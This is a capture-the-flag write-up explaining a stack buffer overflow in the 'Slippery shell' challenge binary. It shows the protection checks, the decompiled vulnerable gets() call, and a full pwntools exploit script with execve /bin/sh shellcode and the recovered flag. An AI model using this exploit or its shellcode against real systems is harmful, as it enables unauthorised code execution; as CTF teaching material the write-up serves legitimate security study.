

# Slippery shell



# Vanilla stack-based buffer overflow - Jump to shellcode

We are given a binary that prompts us for a name as input and also leaks the address of the stack. After looking at the protections of the binary we see that most of the crucial protections are turned off which means we have total control of the program and can therefore jump to our own shellcode.

# Analysis

```bash
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
After running `checksec` on the binary we see that the `NX`, `PIE` and `Canary` protections are disabled. This means that if we find a vulnerability in the binary we have total freedom to do whatever we want and most importantly run our own shellcode because the `NX` bit is disabled.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4[16]; // [rsp+0h] [rbp-10h] BYREF

  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  printf("Your id is %p\n", v4);
  printf("Please enter your name! ");
  gets(v4);
  return 0;
}
```
Decompiling the main function we can see that our input buffer `v4` gets passed to a dangerous function `gets()` And that a pointer to our input is printed to stdout by `printf()` Now we have all the necessary pieces to the puzzle to build out our exploit.

1. Find the overflow offset
2. overwrite RIP with the leaked stack pointer
3. Get shell


This sounds pretty easy but lets breakdown an important element in our exploit. We want the `RIP` register to point to our shellcode on the stack, when we overwrite the return address to be the leaked stack pointer we are only pointing to the start of the buffer (our padding). Let's look at some code

```python
padding = b"A"*24
RIP = p64(int(stack_addr, 16) + len(padding) + 8)
shellcode = b"shellcode here"
payload = padding + RIP + shellcode
```

We start off with our padding of `24 bytes` then we get to the important bit, we convert the stack pointer value to an integer to deal with some calculations a bit easier. We start with the stack pointer and add the lenght of the padding to our stack pointer, now instead of pointing to our padding we are pointing to `RIP`. Since our end goal is to point to our shellcode we want to move past `RIP` and we can do that by adding `8 bytes` worth of padding (x64 address size) which makes us now point to our shellcode, then we convert the value to a x64 address with `p64()`. Now we are ready to ship our payload

```python

#!/usr/bin/python3
from pwn import *

context.log_level = 'debug'

if args.REMOTE:
    p = remote('ggc.tf', 32222)
else:
    p = process('./slippery_shell')

stack_addr = p.recvline().strip().split()[-1]
log.success("Stack addr: {}".format(stack_addr.decode('latin-1')))

padding = b"A"*24
RIP = p64(int(stack_addr, 16) + len(padding) + 8)
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05" # 23 byte shellcode
payload = padding + RIP + shellcode

p.sendline(payload)
p.interactive()

# FLAG: gg{Sl1p_n_s1d1n_thru_th3_st4ck!}
# Shellcode: https://www.exploit-db.com/exploits/46907
```
